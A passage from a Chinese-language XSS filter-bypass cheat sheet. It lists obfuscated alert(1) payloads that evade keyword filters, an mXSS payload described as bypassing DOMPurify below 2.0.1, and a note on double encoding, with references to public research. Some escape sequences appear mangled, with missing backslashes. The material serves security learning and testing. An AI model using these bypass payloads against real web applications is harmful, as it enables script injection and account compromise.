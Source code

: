 ### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E8%AF%8D%E8%BF%87%E6%BB%A4"></a>关键词过滤

避免使用的关键词：

<code>(alert)(1)<br>
(1,2,3,4,5,6,7,8,alert)(1)<br>
a=alert,a(1)<br>
[1].find(alert)<br>
top["al”+”ert"](1)<br>
top[/al/.source+/ert/.source](1)<br>
alu0065rt(1)<br>
top['al145rt'](1)<br>
top['alx65rt'](1)<br>
top[8680439..toString(30)](1)  // Generated using parseInt("alert",30). Other bases also work</code>

### <a class="reference-link" name="mXSS%E5%92%8CDOM%E6%94%BB%E5%87%BB"></a>mXSS和DOM攻击

对于XSS过滤器来说，它们基本上不可能正确地预测浏览器如何跟HTML以及交互库进行数据处理的方式。因此，有的时候我们就可以将XSS Payload作为无效的HTML插入到目标页面中，然后浏览器将有可能把它作为有效Payload执行，这样就可以绕过过滤器了。

下面给出的是一个能够绕过最常见过滤器（DOMPurify &lt;2.0.1）的mXSS Payload：

```
&lt;svg&gt;&lt;/p&gt;&lt;style&gt;&lt;a id="&lt;/style&gt;&lt;img src=1 onerror=alert(1)&gt;"&gt;

&lt;svg&gt;&lt;p&gt;&lt;style&gt;&lt;a id="&lt;/style&gt;&lt;img src=1 onerror=alert(1)&gt;"&gt;&lt;/p&gt;&lt;/svg&gt;
```

### <a class="reference-link" name="%E5%8F%8C%E9%87%8D%E7%BC%96%E7%A0%81"></a>双重编码

有的时候，应用程序会在字符串再次解码之前，对其执行XSS过滤，这样就会给我们留下实现绕过的可乘之机。

[![](https://p4.ssl.qhimg.com/t01005dde01a2a7b889.png)](https://p4.ssl.qhimg.com/t01005dde01a2a7b889.png)



## 参考资料

1、[https://www.vulnerability-lab.com/resources/documents/531.txt](https://www.vulnerability-lab.com/resources/documents/531.txt)<br>
2、[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)<br>
3、[https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)<br>
4、[https://cure53.de/fp170.pdf](https://cure53.de/fp170.pdf)<br>
5、[https://www.youtube.com/watch?v=5W-zGBKvLxk](https://www.youtube.com/watch?v=5W-zGBKvLxk)<br>
6、[https://xss.pwnfunction.com/](https://xss.pwnfunction.com/)
